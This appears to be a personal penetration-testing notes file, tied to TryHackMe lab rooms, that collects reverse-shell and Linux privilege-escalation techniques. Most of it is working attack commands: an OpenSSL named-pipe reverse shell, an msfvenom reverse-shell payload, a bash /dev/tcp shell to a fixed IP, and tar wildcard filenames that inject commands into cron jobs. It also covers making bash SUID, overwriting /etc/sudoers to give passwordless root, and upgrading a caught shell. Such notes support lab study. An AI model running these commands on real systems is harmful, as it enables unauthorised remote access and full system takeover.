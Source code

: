 ******************* Look at notes THM room Game Zone README.md for various techniques.

# OpenSSL Reverse Shell
[Generate OpenSSL Certificate](../../SSL/OpenSSL/README.md#Generate-SSL-Certificate)
[Start OpenSSL Listener](../../SSL/OpenSSL/README.md#Start-OpenSSL-Listener)
##### From Target, create named pipe and OpenSSL client to connect to Attack Machine.
```bash
# On Target
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <Attack IP ADdress>:443 > /tmp/x; rm /tmp/x
```

# ICMP Reverse Shell with icmpsh
##### Disable ICMP replies by the OS
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
## ICMP Reverse Shell References
[Github icmpsh](https://github.com/bdamele/icmpsh)

[Pentestlab Blog](https://pentestlab.blog/tag/icmpsh/)

[Security Online](https://securityonline.info/icmpsh-simple-reverse-icmp-shell/)

# CronJobs - File Permissions 
```bash
cat /etc/crontab
# IF CronJobs runs a <file>.sh script, edit <file>.sh to establish a reverse shell.
```

# CronJobs - Wildcard
```bash
cat /etc/crontab
# Find CronJobs using wildcards.
# Search GTFObins for CronJob command.

# Find out the time to see when the next job will run.
date

### NOTE - I had problems making the scripts executable and callng them.
### Using exec=sh <script>.sh worked, when the others did not.
### See notes from THM Skynet room.
### I was unable to establish a reverse shell.
### Scripts that I chmod +x did not execute.
### Calling he scripts with sh worked.
echo "" > "--checkpoint-action=exec=sh <script>.sh"

# Example using tar.
# Create reverse shell binary with msfvenom.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local IP> LPORT=<port num> -f elf -o shell.elf
# Copy shell.elf to server.
# Make shell.elf executable, on server.
chmod +x /home/user/shell.elf
# Start listener.
nc -nvlp <port num>
# Create these two files in /home/user:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
# These filenames will be read as tar arguments, causing tar to execute shell.elf.

## ALTERNATIVES
# Use a bash shell.
echo "bash -i >& /dev/tcp/10.13.25.242/9999 0>&1" > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Make /bin/bash a SUID.
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Copy /bin/bash to a /tmp and make SUID.
printf '#!/bin/bash\ncp /bin/bash /tmp/newbinbash && chmod +s /tmp/newbinbash' > newbinbash.sh
chmod +x newbinbash.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=newbinbash.sh
# Make the current user a sudoer.
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
chmod +x privesc.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=privesc.sh
```

### CronJobs - Wildcard References
[Exploiting Wildcard for Privilege Escalation](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

# [Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)
##### Note: The methods above will not work in every situation. For example, I have regularly run into a problem on my Kali machine where attempting to use stty raw -echo while using zsh as my shell will cause the entire terminal to become unusable. I have gotten around this issue by switching to bash before I start any netcat listener that I will be using to catch a shell.
```bash
bash
rlwrap nc -lvnp $port
which python python2 python3
/usr/bin/python3 -c "import pty; pty.spawn('/bin/bash')"; #spawn a python psuedo-shell
CTRL+Z # to background shell
stty raw -echo # Send control characters to the shell.
stty size # Get terminal window size 48 / 102
fg # foreground shell
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

# [WordPress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

# Cheatsheets
[HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

# References
[Staged vs Stageless Handlers](https://buffered.io/posts/staged-vs-stageless-handlers/)

[Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)

[WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)